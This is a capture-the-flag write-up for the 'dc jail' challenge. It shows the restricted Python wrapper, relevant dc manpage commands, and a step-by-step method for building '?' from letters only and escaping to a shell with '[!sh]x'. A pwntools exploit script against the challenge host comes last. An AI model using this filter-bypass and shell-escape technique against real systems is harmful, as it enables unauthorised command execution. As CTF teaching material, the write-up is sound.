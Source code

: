 # dc jail

```
a "desk calculator" ... using "reverse polish notation" ... yeah this was not on my bucket list for year

nc challs1.pyjail.club 16303
```

Attachment:

```python
#!/usr/bin/python3

import os

inp = input('> ')
if any(c not in 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxy' for c in inp):  # they gave me no blue raspberry dawg
    print('bad. dont even try using lowercase z')
    exit(1)

with open('/tmp/code.txt', 'w') as f:
    f.write(inp)

os.system(f'/usr/bin/dc -f /tmp/code.txt')

print("stop. you're done. get out.")
```

Reading the dc manpage, here are some interesting commands:

```man
       k      Pops the value off the top of the stack and uses it to set the precision.

       I      Pushes the current input radix on the stack.

       v      Pops one value, computes its square root, and pushes that.  The maximum of the
              precision  value  and  the  precision of the argument is used to determine the
              number of fraction digits in the result.

       Z      Pops a value off the stack, calculates the number of decimal digits it has (or
              number of characters, if it is a string) and pushes that  number.   The  digit
              count for a number does not include any leading zeros, even if those appear to
              the right of the radix point.

       d      Duplicates the value on the top of the stack,  pushing  another  copy  of  it.
              Thus, ``4d*p'' computes 4 squared and prints it.

       a      The  top-of-stack  is  popped.  If it was a number, then the low-order byte of
              this number is converted into a string and pushed onto the  stack.   Otherwise
              the  top-of-stack  was  a  string,  and  the first character of that string is
              pushed back.

       x      Pops a value off the stack and executes it as a macro.  Normally it should  be
              a string; if it is a number, it is simply pushed back onto the stack.  For ex‐
              ample, [1p]x executes the macro 1p which pushes 1 on the stack and prints 1 on
              a separate line.

       [characters]
              Makes a string containing characters (contained between balanced [ and ] char‐
              acters), and pushes it on the stack.  For example, [foo]P prints  the  charac‐
              ters foo (with no newline).

       !      Will  run  the rest of the line as a system command.  Note that parsing of the
              !<, !=, and !> commands take precedence, so if  you  want  to  run  a  command
              starting with <, =, or > you will need to add a space after the !.

       ?      Reads  a  line from the terminal and executes it.  This command allows a macro
              to request input from the user.
```

Here is the general idea:

1. To get shell, we need to use `!sh`
2. However, we cannot use `!`, so we put it into a string via `[!sh]`, and execute it with `x`: `[!sh]x`
3. However, we cannot use `[` for `]`, instead, we can use `a` to construct a single-character string, but `!sh` is too long
4. Therefore we use `[?]x` to readline from stdin and execute it
5. So we only need to construct `?` on the stack, which can be compute from 63 (ASCII of `?`) via `a`
6. To construct 63, we first push 10 (the default input radix) onto the stack via `I`
7. To make it larger, we extend the precision to 10 by `k`, then we can use `v` to compute `sqrt(10)` of precision 10: `3.1622776601`
8. `3.1622776601` has 11 digits, so applying `Z` to it gives us `11`
9. Set precision as `11` and repeat the process of `dZkv` (duplicate TOS, count its decimal digits, set as precision, square root), until we get 63

Attack:

```python
from pwn import *

# notes:
# [!sh]x: get shell
# [?]x: readline and eval
# 63a: push "?" to stack

# I: push 10
# k: pop 10, set precision = 10
# I: push 10
# v: pop 10, push sqrt(10)
# extend digits by (TOS means top of stack):
# 1. d: duplicate TOS
# 2. Z: pop and compute number of decimal digits of TOS
# 3. k: pop and set precision as TOS
# 4. v: pop TOS, push sqrt(TOS)
# p = process("dc")
p = remote("challs1.pyjail.club", 16303)
p.recvuntil(b"> ")
p.sendline(f"IkIv{'dZkv'*52}Zax".encode())
sleep(1)
p.sendline(f"[!sh]x".encode())
p.interactive()
```

Flag: `jail{but_does_your_desk_calculator_have_rce?_5c9cff7b71fc447d}`.

An elegant and simple solution is provided by @mirelgigel at [mirelgigel/writeupjailctf](https://github.com/mirelgigel/writeupjailctf).
